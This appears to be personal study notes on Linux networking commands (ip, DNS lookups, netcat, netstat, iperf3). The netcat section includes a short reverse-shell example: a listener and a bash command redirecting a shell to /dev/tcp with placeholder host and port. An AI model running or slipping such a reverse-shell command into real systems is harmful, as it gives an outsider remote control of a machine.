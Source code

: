 # ip command

`ip addr` shows addressed assigned to all network interfaces

`ip link` shows all accessible intefaces

`ip route` shows routing table

`ip route list table local` provides additional (internal e.g. loopback or broadcast) route addresses

`ip route add 192.168.12.0/24 via 172.16.0.2`

`ip route add default via 172.16.0.2`

> [!NOTE]
> default is an alias for 0.0.0.0/0

`ip link set enpxsy name enp-rem` changes name for an interface to enp-rem

> [!NOTE]
> interface has to be down during rename

`ip addr flush dev enp0s3` resets inteface setting

`ip link set down dev enp0s3` sets down intefcae

`ip link set up dev enp0s3` sets up interface

`ip addr add 1.0.1/24 dev enp0s3` assigns addres to interface by hand

> [!WARNING]
> `ip addr add` with mask -  puts default gatway ip to route table, but would't if mask wasn't provided\
> additionaly route table for specific interface will be accessible iff interface is set up

> [!NOTE]
> common name for ethernet interface is enp#s#f#, which stands for:
>```
>en = ethernet
>p# = PCI bus number
>s# = slot number
>f# = function index
>```

# dhclient - DHCP - Dynamic host conf protocol

`dhclient enp0s3 -v`

ISP - internet service provider

# host DNS 

`host -t a example.org` -DNS CLIENT with (t)ype of record

`traceroute -A example.org` - additional info about each consecutive AS number that can be used with whois

`traceroute -n 192.168.4.4` - turn off dns request when repling ipv4 -> host

### dns flow
![dns-flow](./imgs/basic/dns.png)


### dns query types
* recursive - dns resolvers sends a message if it can, by doing recursive calls

* iterative - dns resolver sends the best answer he can give and client has to make another call itself

* non-recursive - idk


### dns servers
* DNS resolver (recursive resolver)

* Root provider (there are 13) if dns resolver doesn't have some record it root provider for it
  
* Authoritative server (like google.com)
  
* Top level domains

### dns records

| type  | description                                                          |
| ----- | -------------------------------------------------------------------- |
| A     | resolves ipv4 addreses                                               |
| AAAA  | resolves ipv6 adresses                                               |
| CNAME | creates aliases to domain `ftp.example.com -> example.com`           |
| MX    | where to send email `MX example.com with prio -> mail1.example.com ` |
| SOA   | (start of authority)                                                 |

# nc  - netcat
### connect two computers

`-u` - `UDP` instead of `TCP` is used

server
```bash
nc -l 1337
```

client
```bash
nc ipaddr 1337
```

### reverse shell

attacker
```bash
nc -l -v -n -p 3000
```

target
```bash
/bin/bash - i >& /dev/tcp/ip/port 0>&1
```


# telnet host port
allows plain communication in tcp

# netstat
prints active network devices with lots of addition info about active ports, ethernet stats, ipv4 stats (ip, icmp, tcp , udp)

`netstat -l46n` - prints active listning services\
`netstat -l46` - prints active listning serices but with service using /etc/services

`sudo netstat -tulpn` l - listning, p- program, n -numeric


> [!NOTE]
> `/etc/services` is a mapping between protocols names and its TCP/UDP ports

> [!NOTE]
> `/etc/hosts` is a "local dns file" each records look like `127.0.1.1    virbian`


# ethtool
for managing network interfaces devices
obtaining properties :  `ethtool enp0s3`

# iperf3 - performance measurment application btw client and server

`iperf -s` listen
`iperf3 -c 192.168.0.2` sends

> [!NOTE]
> `iperf3` commonly works on port 5201
>
# ping
if intermediate router doesn't know where to send ping packet, it sends `Destination host unreachable` packet to sender
